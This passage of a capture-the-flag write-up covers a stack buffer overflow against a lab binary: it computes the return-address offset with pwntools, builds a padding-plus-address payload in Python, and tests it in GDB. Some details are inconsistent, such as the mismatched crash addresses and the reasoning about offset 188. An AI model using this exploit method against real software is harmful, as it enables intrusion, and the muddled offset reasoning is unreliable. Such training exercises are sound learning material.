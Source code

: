 Ok, the stack crashed at `0x62616177`. Now, we can calculate the offset by giving this address to `pwntools`:

```python
from pwn import cyclic_find
eip_value = 0x61776261
offset = cyclic_find(eip_value)
print(f"The offset: {offset}")
```

Gives:

```bash
(htb-venv) kaizen@celestial /tmp/htb $ python3 offset.py 
The offset: 186
```

So the offset is roughly 186. I say roughly, because this method does not always work, but it always gives a rough estimate. Now it's time to investigate it further with GDB. Let's try to see if we can delivery a payload with this offset and containing the address of the `flag` function to be called. We could start with this payload `python3 -c "import sys; sys.stdout.buffer.write(b'A'*186 + <flag function address>)"`, where in this case, the function address is: `0x080491e2`. Since we are in a little-endian system, we write the payload as follows:

```python
import sys
offset = 186
sys.stdout.buffer.write(b'A'*offset + b'\xe2\x91\x04\x08')
```
Let's write the output to a binary file:

```bash
(htb-venv) kaizen@celestial /tmp/htb $ python3 -c "import sys; sys.stdout.buffer.write(b'A'*186 + b'\xe2\x91\x04\x08')" > payload.bin
```

Now, with GDB, we can analyze if the offset is correct:

```bash
(gdb) r < payload.bin
Starting program: /tmp/htb/vuln < payload.bin
Downloading separate debug info for system-supplied DSO at 0xf7fc7000                  
[Thread debugging using libthread_db enabled]                                          
Using host libthread_db library "/usr/lib/libthread_db.so.1".
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��

Program received signal SIGSEGV, Segmentation fault.
0x08000804 in ?? ()
```

Note that the program crashed at `0x08000804`. This suggests that the return address might not have been overwritten with the correct address; that is, our offset is wrong. With an offset of 187, we get the same, but now in the `0x00080491` address. As we can see, slowly our payload is being overwritten in the `$eip` register. With 188 we get a segmentation fault at `0xdeadbeef`, and with 189 we get it at `0x91e24141`. This indicates the correct offset is 188, since the crash at 0xdeadbeef with this offset confirms that the exact location of the return address on the stack is being targeted. The return address is overwritten with the bytes from our payload and calling the `flag` function.
